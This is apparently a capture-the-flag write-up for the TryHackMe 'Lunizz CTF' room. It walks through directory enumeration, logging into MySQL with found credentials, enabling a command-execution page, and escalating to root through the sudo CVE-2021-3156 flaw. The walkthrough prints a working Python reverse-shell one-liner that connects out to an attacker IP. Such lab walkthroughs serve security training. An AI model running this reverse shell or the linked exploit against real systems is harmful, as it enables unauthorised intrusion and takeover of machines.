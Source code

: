 ```yaml
---
description: vulnerable sudo version.
---
```


# 21 - Lunizz CTF

Room Link --> [https://tryhackme.com/room/lunizzctfnd](https://tryhackme.com/room/lunizzctfnd)

### Enumeration

#### Gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.68.127 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 500 2>/dev/null

# output:
/instructions.txt
/whatever
/hidden
```
{% endcode %}

Navigating to "/whatever" gives us a command injection interface. But we can't execute any cmds.

Seems we found a credential at "/instructions.txt". Seems like a mysql login.

{% code lineNumbers="true" %}
```bash
runcheck:CTF_script_cave_changeme

# login mysql
mysql -h 10.10.68.127 -u runcheck -p

# enumerate the db.
show databases;
use <dbname>;
show tables;
select * from <tablename>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>logged in</p></figcaption></figure>

We got the column name --> "run".

From the Table “runcheck”, we were able to find the name of the column which looks to be controlling the command executer as it’s value is 0 currently. We can update this value to 1 and check if we can exeute something.

```
update runcheck set run=1;
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we can execute cmds now.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev shell.

Start a nc listener, then i used a python one-liner rev shell from payloadallthings to obtain shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

I used "linux-exploit-suggester.sh" to enumerate the machine.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems like this version of `sudo` is vulnerable to the [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) vulnerability. This exploit abuses all sudo versions lower than version `1.8.31`. This vulnerability gives you `root` privileges right away! We should also check which Ubuntu version is installed by running: `lsb_release -a`.&#x20;

Follow the instructions here to get root.

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

